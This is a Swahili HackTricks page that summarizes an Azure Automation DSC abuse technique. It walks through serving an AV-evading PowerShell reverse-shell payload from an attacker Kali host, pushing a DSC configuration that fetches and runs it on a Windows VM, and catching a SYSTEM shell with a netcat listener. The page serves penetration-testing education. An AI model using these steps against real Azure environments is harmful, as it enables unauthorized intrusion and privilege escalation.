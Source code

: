 # Az - Hali ya Utekelezaji wa Udhibiti wa Mbali (RCE)

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka mwanzo hadi mtaalamu na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalamu wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

**Angalia chapisho kamili katika: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Muhtasari wa Maandalizi na Hatua za Miundombinu ya Seva ya Mbali (C2)

#### Maelezo
Mchakato unahusisha kuweka miundombinu ya seva ya mbali kuhifadhi mzigo uliobadilishwa wa Nishang `Invoke-PowerShellTcp.ps1`, uitwao `RevPS.ps1`, ulioundwa kuvuka Windows Defender. Mzigo huo unahudumiwa kutoka kwa mashine ya Kali Linux yenye IP `40.84.7.74` kwa kutumia seva rahisi ya HTTP ya Python. Operesheni hutekelezwa kupitia hatua kadhaa:

#### Hatua 1 — Unda Faili
- **Faili Zinazohitajika:** Inahitajika hati mbili za PowerShell:
1. `reverse_shell_config.ps1`: Faili ya Hali ya Utekelezaji Inayotakikana (DSC) ambayo hupata na kutekeleza mzigo. Inapatikana kwenye [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Hati ya kuchapisha usanidi kwenye VM, inapatikana kwenye [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Ubadilishaji:** Vigezo na marameteri katika faili hizi lazima zibadilishwe kulingana na mazingira maalum ya mtumiaji, ikiwa ni pamoja na majina ya rasilimali, njia za faili, na vitambulishi vya seva/mzigo.

#### Hatua 2 — Pakia Faili ya Usanidi kwenye Zip
- `reverse_shell_config.ps1` inafungwa katika faili ya `.zip`, ikifanya iwe tayari kwa uhamisho kwenye Akaunti ya Uhifadhi ya Azure.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Hatua ya 3 — Weka Muktadha wa Uhifadhi & Pakia
- Faili iliyozipwa ya usanidi inapakiwa kwenye chombo kilichopangwa mapema cha Uhifadhi wa Azure, azure-pentest, kwa kutumia amri ya Set-AzStorageBlobContent ya Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Hatua ya 4 — Andaa Kali Box
- Seva ya Kali inapakua mzigo wa RevPS.ps1 kutoka kwenye hazina ya GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Skripti imehaririwa ili kufafanua lengo la VM ya Windows na bandari kwa reverse shell.

#### Hatua 5 — Chapisha Faili ya Mipangilio
- Faili ya mipangilio inatekelezwa, ikisababisha skripti ya reverse-shell kuwekwa kwenye eneo lililoelezwa kwenye VM ya Windows.

#### Hatua 6 — Mwenyeji wa Mzigo na Kuweka Msikilizaji
- Python SimpleHTTPServer inaanzishwa kuhudumia mzigo, pamoja na msikilizaji wa Netcat kukamata mawasiliano yanayoingia.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Kazi iliyopangwa inatekeleza mzigo, ikipata mamlaka ya kiwango cha SYSTEM.

#### Hitimisho

Utekelezaji mafanikio wa mchakato huu hufungua fursa nyingi kwa hatua zaidi, kama vile kuvuja kwa siri za uthibitisho au kupanua shambulio kwa VM nyingi. Mwongozo unahimiza uendelezaji wa ujifunzaji na ubunifu katika uga wa Azure Automation DSC.

<details>

<summary><strong>Jifunze kuhusu kuvamia AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya HackTricks AWS)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kuvamia kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
